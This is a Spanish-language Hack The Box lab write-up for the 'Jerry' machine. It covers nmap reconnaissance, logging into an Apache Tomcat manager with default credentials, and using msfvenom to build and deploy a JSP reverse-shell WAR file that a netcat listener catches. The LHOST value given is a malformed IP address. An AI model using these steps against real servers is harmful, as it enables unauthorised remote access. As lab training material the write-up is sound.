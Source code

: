 ![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167362483-2fb9697d-8b28-490a-8f61-2a60dcf94c31.png)

En primer lugar, nos creamos un directorio con el nombre de la máquina desde el que trabajaremos:

    sudo mkdir Jerry
    
Ahora, mediante la función [`mkt`](../Herramientas_y_Scripts/mkt.html) que tengo previamente definida en la `.zhshrc` crearemos nuestros directorios de trabajo:

    sudo mkt

Esta función está definida para crearnos cuatro directorios (`nmap`, `content`, `exploits` y `scripts`) desde los cuales poder trabajar a la hora de
realizar las máquinas de HTB.

Ejecutamos un `ping` y vemos como nos reporta un ttl=127, por tanto, ya sabemos que estamos frente una máquina Windows.

    ping -c 1 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-41-43](https://user-images.githubusercontent.com/103068924/167363813-7dab983b-d779-40bb-9ee9-fa2098fad932.png)

Ahora vamos a ver mediante `whatweb` que más podemos ver:

    whatweb 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-48-48](https://user-images.githubusercontent.com/103068924/167364415-8e3dae47-0de7-4b61-b469-d7f0dbff2539.png)

Nos reporta un erro al tratar de acceder. Port tanto vamos a realizar mediante [`nmap`](../Herramientas_y_Scripts/Nmap.html)
una serie de escaneos para ver que puertos se encuentran abiertos, primero realizare un escaneo básico:

    nmap -p- --open -T5 -v -n 10.10.10.95 -oG allPorts
  
`-oG` : Exportar los resultados en formato grepeable.
  
`allPorts` : Nombre del archivo. Si no existe lo creará.
  
De esta manera podremos revisar los puertos que estaban abiertos en cualquier momento.

![Captura de pantalla -2022-05-09 10-02-16](https://user-images.githubusercontent.com/103068924/167366619-2fea1b36-9776-47cd-8c0d-a516313f4c11.png)

![Captura de pantalla -2022-05-09 10-02-34](https://user-images.githubusercontent.com/103068924/167366626-008b8f13-f83a-4e1d-a74c-9e3844c33f17.png)

Como podemos ver, nos reporta que el puerto 8080 esta abierto, vamos a realizar un segundo escaneo especificando
que quereros utilzar la variable `--script http-enum` en el puerto 8080 y guardaremos los resultados en el archivo 
`targetenum`.

    sudo nmap --script http-enum -p8080 10.10.10.95 -oN targetenum 
    
![Captura de pantalla -2022-05-07 15-15-30](https://user-images.githubusercontent.com/103068924/167366694-67b211b3-0e2c-45d5-9d33-217119e4df2b.png)

![Captura de pantalla -2022-05-07 15-24-03](https://user-images.githubusercontent.com/103068924/167366815-7cda1186-3b70-4313-b7bd-cbc85727409c.png)

Vemos que en el puerto `8080` corre un servicio `http`, por tanto vamos a intentar acceder mediante el navegador de Firefox.

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167367405-e0c39dde-b045-4a47-996c-8585896b46e5.png)

Vemos que al intentar acceder al dominio `http://10.10.10.95` la página no termina de cargar, pero tampoco reporta ningún error. Por tanto lo siguiente que
probaremos sera especificar el puerto en el que corre el servicio, por tanto intentamos acceder al dominio `http://10.10.10.95:8080`.

![Captura de pantalla -2022-05-07 15-11-45](https://user-images.githubusercontent.com/103068924/167368005-2fbf0775-5bb5-4ee6-ba8d-386529a1706c.png)

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167368016-77a414e6-3ce0-4ee2-ae34-d79d955ca882.png)

Genial ya nos carga la página, vemos que se trata de la página oficial de un programa llamado `Tomcat`. Lo siguiente que vamos a probar, es tratar de
acceder al directorio `./manager/html`.

![Captura de pantalla -2022-05-07 15-17-15](https://user-images.githubusercontent.com/103068924/167369103-a8c49c92-7566-4e5a-8cc2-0077f62154ad.png)

![Captura de pantalla -2022-05-07 15-17-33](https://user-images.githubusercontent.com/103068924/167369119-303c65f3-30f4-4435-a170-a8d7ca3a8cd3.png)

Nos muestra una ventana de registro, como se trata de una máquina fácil, podemos probar con combinaciones básicas para ver si conseeguimos ingresar
de manera sencilla.

![Captura de pantalla -2022-05-07 15-17-43](https://user-images.githubusercontent.com/103068924/167369536-153cffa5-e7a3-48ba-a9a7-5a6b6a9d761e.png)

Tras probar algunas combinaciones vemos que utilizando el usuario `admin` y la contraseña `admin` nos reporta este mensaje con un error de servicio 403.

![Captura de pantalla -2022-05-07 15-18-05](https://user-images.githubusercontent.com/103068924/167369705-e43f467d-4aea-4226-b0d3-2a8c5c3690b2.png)

Vemos como nos indica un ejemplo, donde nos muestra una credenciales que se han utilizado para motrar el ejemplo.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167369862-6c157b14-f241-4432-8fe9-d5e4707857a1.png)

Tratamos de acceder al panel anterior mediante estas credenciales a ver si nos permite registrarnos como el usuario `tomcat` y utilizando la contaseña
`s3cret`.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167370646-06f8b867-1bbc-4920-848a-fd7e651d0a3c.png)

![Captura de pantalla -2022-05-09 10-23-23](https://user-images.githubusercontent.com/103068924/167370670-7fe63026-5173-4dce-bff7-7baeb579db9d.png)

![Captura de pantalla -2022-05-07 15-22-16](https://user-images.githubusercontent.com/103068924/167370734-2bb21a68-2dcd-4897-9047-fde8b66decbe.png)

Las credenciales funcionan y nos lleva hasta una página que parece gestionar aplicaciones. 

Tras revisar la página vemos que nos permite subir arhcivos, así que vamos a tratar de buscar alguna herramienta que nos perminta crear una
shell inversa desde la cual poder interactuar con la máquina.

Mediante `msfvenom` podemos tratar de comprobar una gran cantidad de herramientas:

    msfvenom -l payloads

![Captura de pantalla -2022-05-07 15-25-25](https://user-images.githubusercontent.com/103068924/167371974-d9b41da2-3d47-40a1-8498-6d2f25678fc3.png)

![Captura de pantalla -2022-05-07 15-27-24](https://user-images.githubusercontent.com/103068924/167372055-941c21d6-2d55-4808-9994-391d329511a5.png)

Vamoa a utilizar  la herramienta `jsp_shell_reverse_tcp`. Esta herramienta, especificandole nuestro host de escucha y el puerto mediante el siguiente
comando, nos creará un archivo en formato `.war` capaz de crear una shell inversa desde la máquina víctima.

![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167385544-1f78a708-b08c-4c23-b6b3-8787c0f05fd4.png)

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.14.29 LPORT=8080 -f war -o shell.war
    
![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167376951-11f44b27-79b4-4988-b325-4f8e8423ccb7.png)
    
Una vez creado nuestro archivo `shell.war` vamos a subirlo a la máquina victima, pero antes, debemos mover nuestro archivo
al directorio `Descargas/Downloads`:

![Captura de pantalla -2022-05-07 15-32-25](https://user-images.githubusercontent.com/103068924/167373933-05569db6-7535-4e68-b2a3-ae5c0e72fb63.png)

Ahora mediante el apartado de la página llamado `Archivo WAR a desplegar` subimos nuestro archivo `shell.war`.

![Captura de pantalla -2022-05-07 15-32-55](https://user-images.githubusercontent.com/103068924/167374610-e9b1e566-2a29-4116-bfec-33a11ae25fc6.png)

![Captura de pantalla -2022-05-07 15-33-38](https://user-images.githubusercontent.com/103068924/167374653-431287e4-5091-47b0-968a-85ec85904e40.png)

![Captura de pantalla -2022-05-07 15-34-28](https://user-images.githubusercontent.com/103068924/167374662-ab39d3f4-9253-43a4-9079-91b7a7caf281.png)

![Captura de pantalla -2022-05-07 15-34-42](https://user-images.githubusercontent.com/103068924/167374683-17d0860c-4808-40af-9788-25955448d081.png)

Recargamos la página y vemos como aparece nuestro archivo. El siguiente paso será ponerno en escucha por el puerto `8080` mediante `nc` como se 
trata de un sistema windows utilizaremos `rlwarp`:

    rlwrap nc -lvnp 8080

![Captura de pantalla -2022-05-09 11-07-21](https://user-images.githubusercontent.com/103068924/167385711-908c4b6b-e40d-48c2-8978-5536a0850301.png)


![Captura de pantalla -2022-05-09 11-07-30](https://user-images.githubusercontent.com/103068924/167386060-d0be171e-6afb-468c-a5c4-8699f4ffc08a.png)


Ahora para ejecutar el archivo, simplemente nos vamos a la página y lo pulsamos.


![Captura de pantalla -2022-05-09 11-49-32](https://user-images.githubusercontent.com/103068924/167386089-4cd94622-03f5-45df-83d6-da925a2ea417.png)

Vemos como la shell se nos despliega en la terminal que tenemos en escucha con Netcat.

![Captura de pantalla -2022-05-09 11-55-16](https://user-images.githubusercontent.com/103068924/167386486-2bea3986-982e-4163-8293-4cf58fccc4f4.png)

Está maquina ya esta básicamente terminada ya que las dos flags se encuentran en el mismo archivo, el cual se encuentra en el directorio 
`C:\Users\Administrator\Desktop\flags`:

    cd /Users/Administrator/Desktop/flags
    
Vemos como dentro del directorio `flags` se encuenta el archivo `2 for the price at 1.txt`

![Captura de pantalla -2022-05-09 12-01-47](https://user-images.githubusercontent.com/103068924/167387535-4165e282-73a2-4d0a-a41a-4893cd492ef6.png)

Y finalmente, mediante `type` podemos visualizar el contenido:

![Captura de pantalla -2022-05-07 15-59-28](https://user-images.githubusercontent.com/103068924/167387517-8daf25ec-3c37-486f-8695-2894ca5daabe.png)


![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167387740-ca9ebbf6-6e75-47f5-b8e5-076a6e0eee27.png)





